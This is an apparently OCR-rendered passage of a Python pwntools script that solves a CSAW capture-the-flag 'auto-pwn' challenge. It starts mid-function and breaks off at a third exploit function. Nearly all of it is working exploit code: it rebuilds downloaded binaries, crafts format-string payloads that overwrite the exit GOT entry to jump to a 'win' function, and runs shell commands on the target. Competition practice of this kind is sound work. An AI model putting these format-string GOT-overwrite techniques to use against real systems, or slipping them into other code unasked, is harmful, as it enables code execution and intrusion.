 ```python
    open("binary.hex","wb").write(binary)
    os.system("xxd -rp binary.hex > binary")
    exe = ELF("binary")
    lower = (exe.sym['win'] - 10) & 0xffff
    upper = exe.sym['win'] >> 16
    payload = flat([
        b"BB",
        p32(exe.got['exit']),
        p32(exe.got['exit']+2),
        f"%{lower}c".encode(),
        b"%6$hn",
    ])
    open("payload.bin","wb").write(password + b"\n" + payload)
    r.sendline(payload)
    r.sendline("cat message.txt;ls;exit")
    if shell:
        r.interactive()
    r.recvuntil(b"flag is in another box! ")
    # print()
    message = r.recvline().decode()
    print(message)
    searched = re.search("auto-pwn.chal.csaw.io ([0-9]*) and use password (.*)", message)
    if shell:
        r.interactive()
    r.close()

    return (int(searched.group(1)), searched.group(2).encode())

def exploit_2(port, password, shell):

    r = remote("auto-pwn.chal.csaw.io", port)
    r.sendline(password)
    r.recvuntil(b"---\n")
    binary = r.recvuntil(b"-------------------\n").rstrip().replace(b"-------------------------------------------------------------------",b"")
    open("binary.hex","wb").write(binary)
    os.system("xxd -rp binary.hex > binary")
    exe = ELF("binary")
    lower = (exe.sym['win'] - 10) & 0xffff
    upper = exe.sym['win'] >> 16
    payload = flat([
        f"%{exe.sym['win'] & 0xffff}c".encode(),
        b"C" * (8 - len(str(exe.sym['win'] & 0xffff)) + 1) ,
        b"%8$hn",
        p64(exe.got['exit']),
    ])
    open("payload.bin","wb").write(password + b"\n" + payload)
    r.sendline(payload)
    r.sendline("cat message.txt;ls;exit")
    if shell:
        r.interactive()
    r.recvuntil(b"flag is in another box! ")
    # print()
    message = r.recvline().decode()
    print(message)
    searched = re.search("auto-pwn.chal.csaw.io ([0-9]*) and use password (.*)", message)
    if shell:
        r.interactive()
    r.close()

    return (int(searched.group(1)), searched.group(2).encode())

def exploit_3(port, password, shell):
```